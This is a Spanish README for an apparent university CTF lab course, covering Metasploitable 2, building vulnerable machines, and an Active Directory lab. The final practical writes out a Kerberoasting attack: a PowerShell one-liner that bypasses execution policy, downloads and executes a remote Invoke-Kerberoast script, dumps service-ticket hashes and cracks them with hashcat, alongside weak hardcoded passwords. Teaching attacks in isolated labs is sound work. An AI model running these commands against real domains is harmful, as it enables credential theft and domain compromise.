 # Desarrollo_CTF
Este commit contiene los scripts que se utilizan en las diferentes prácticas que serán desarrolladas por los alumnos.
Estos pequeños scripts van desde la configuración inicial de una máquina virtual a la creación de un Active Directory junto a su forest.

# Práctica 1
En la práctica 1, sólo tendremos que descargarnos "Metasploitable 2" de la página oficial de Rapid7 (https://docs.rapid7.com/metasploit/metasploitable-2/). Una vez descargado, simplemente realizamos doble clic en el archivo "Metasploitable.vmx" y esto automáticamente abrirá el software VMware junto con la máquina virtual ya instalada. El siguiente paso será usar "Metasploitable 2". El cómo usarlo se explica ampliamente en trabajo de fin de grado.

# Práctica 2
En esta práctica se dará una guía de cómo crear maquinas vulnerables para poder practicar con ellas. Una vez creada esta máquina, el alumno tendrá que redactar un documento explicando cual es la vulnerabilidad o vulnerabilidades que ha elegido para montar la máquina. Los recursos donde encontrar vulnerabilidades pueden ser los siguientes enlaces:
-	[Exploit-db](https://www.exploit-db.com/): aquí podemos descubrir hallazgos de carácter público llevados a cabo por investigadores acerca de varios tipos de software de código abierto utilizando diferentes tipos de técnicas.
-	[HackTricks](https://book.hacktricks.xyz/welcome/readme): nos encontramos ante una colección de diferentes técnicas y conceptos categorizados entre sí.
-	[VulnHub](https://github.com/vulhub/vulhub): una larga colección de imágenes Docker vulnerables que podemos usar en nuestras maquinas.
-	[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings): se trata de un índice en el cual aparecen técnicas de ataque y payloads útiles categorizadas entre si (al igual que en la web de hacktricks).

Una vez encontrada esa vulnerabilidad que queremos replicar en una máquina, seguimos los pasos de creación de la máquina especificados y desarrollado ampliamente en el trabajo de fin de grado.

# Práctica 3
En esta última practica aprenderemos a configurar y montar un laboratorio de Active Directory.
En este caso necesitaremos los siguientes requisitos: 
-	Una imagen ISO de Windows server (en nuestro caso usaremos un Windows Server 2016)
-	Una imagen ISO de Windows (en nuestro caso usaremos un Windows 7)
-	Software de virtualización (en nuestro caso usaremos VirtualBox)

A la hora de configurar el servidor con Active Directory (AD) debemos de tener en cuenta los siguientes comandos; para instalar AD con powershell simplemente ejecutamos el siguiente comando:

-	_Install-windowsfeature AD-domain-services_
  
Después de esto, usamos el siguiente comando para importar el módulo de comando AD.

-	_Import-Module ADDSDeployment_

Después de importar el módulo de implementación de Active Directory, estás en posición de configurar y finalizar Active Directory.
La siguiente línea de comando de PowerShell instalará Active Directory como el primer controlador de dominio en un nuevo bosque (Forest) (esto significa que es la primera instalación de AD).
Nombramos el dominio como "server1.hacklab.local”; y nombrará el servidor como "server1" y colocará todos los registros y NTDS (donde se almacenan los valores hash de contraseñas locales) en el directorio C:\Windows.
Copia y pega el siguiente comando en PowerShell; debe ser una sola línea.

-	_Install-ADDSForest -CreateDnsDelegation:$false ` -DatabasePath "C:\Windows\NTDS" ` -DomainMode "Win2012R2" ` -DomainName "server1.hacklab.local" ` -DomainNetbiosName "server1" `  -ForestMode "Win2012R2" `  -InstallDns:$true `  -LogPath "C:\Windows\NTDS" `  -NoRebootOnCompletion:$false `  -SysvolPath "C:\Windows\SYSVOL" `  -Force:$true_
  
Seguidamente instalamos el paquete de herramientas de administración remota del servidor (RSAT), con el siguiente comando:

-	_Install-WindowsFeature RSAT-ADDS_
  
Si no queremos usar Powershell podemos hacerlo a través de CMD:

-	_dcpromo /unattend /InstallDns:yes /dnsOnNetwork:yes /replicaOrNewDomain:domain /newDomain:forest /newDomainDnsName:server1.hacklab.local /DomainNetbiosName:server1 /databasePath:"c:\Windows\ntds" /logPath:"c:\Windows\ntdslogs" /sysvolpath:"c:\Windows\sysvol" /safeModeAdminPassword:Passw0rd! /forestLevel:2 /domainLevel:2 /rebootOnCompletion:yes_
  
Ahora añadiremos un usuario al dominio por línea de comandos, esta vez a través de powershell:

-	_net user user1 Passw0rd! /ADD /DOMAIN_

Además, agregaremos ese usuario al grupo administrativo del dominio (¡Mal hecho!) con el siguiente comando:

-	_C:\Users\Administrator>net group “Domain Admins” user1 /add_

Para verificar que el usuario ha sido agregado simplemente escribimos:

-	_net users /domain_

Para verificar que el usuario haya sido agregado al grupo administrativo del dominio usamos el siguiente comando:

-	_net group /domain "Domain Admins"_

Una vez configurado todo esto, añadiremos el atacante, para ello agregaremos otro usuario, esta vez lo mantenemos como un usuario estándar, esta es la cuenta que usará para agregar la máquina VM con Windows al dominio.

-	_net user user2 Passw0rd! /ADD /DOMAIN_
  
Con esto crearemos nuestro Active Directory (AD).

Una vez creado todo, necesitamos crear una cuenta de servicio vulnerable. Para hacerlo, copiamos el siguiente comando en una ventana de CMD o PS:

-	_setspn -s http/server1.hacklab.local:80 user1_

Luego, crea un nuevo directorio (carpeta) en el escritorio y luego abre PowerShell y muévete a la ubicación del directorio en PowerShell.

-	_cd C:\Users\User2\Desktop\Hash_

Ahora estamos listo para copiar y pegar la única línea de comando a continuación en la sesión de PowerShell, el comando es el siguiente:

-	_powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/myexploit/PS_Scripts_Backup/master/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"_

Esto realiza el ataque de kerberoast; en caso de funcionar, vemos como aparece un archivo titulado 'kerb-Hash1' en el directorio creado “C:\Users\User2\Desktop\Hash.” Abrimos este archivo de texto y vemos la cuenta de servicio devuelta con su correspondiente hash de contraseña.
Entonces, ya tenemos un hash, ¿cómo lo descifras? Tenemos la herramienta que hemos aprendido en la parte teórica, en este caso utilizaremos la herramienta Hashcat, ya que hashcat ha añadido el hash Kerberos 5 TGS-REP etype 23 a su lista de hashes compatibles (hashcat - advanced password recovery).

La sintaxis a continuación de hashcat, ejecutará un ataque de diccionario contra el hash, en un intento de descifrarlo.

-	_hashcat64.exe -m 13100 "C:\Hash1.txt" C:\Rocktastic12a --outfile="C:\OutputHash1.txt"_

Este comando suele tardar en ejecutarse, ya que los hashes Kerberos pueden tomar bastante tiempo para descifrarse; nada más acabar se creará un fichero que se llama “OutputHash1.txt.”, en el cual estará la contraseña descifrada y la cual podemos leer en texto claro.

Con esto se acabaría la práctica 3, este proceso ha sido más especificado y desarrollado de manera más amplia en el trabajo de fin de grado.
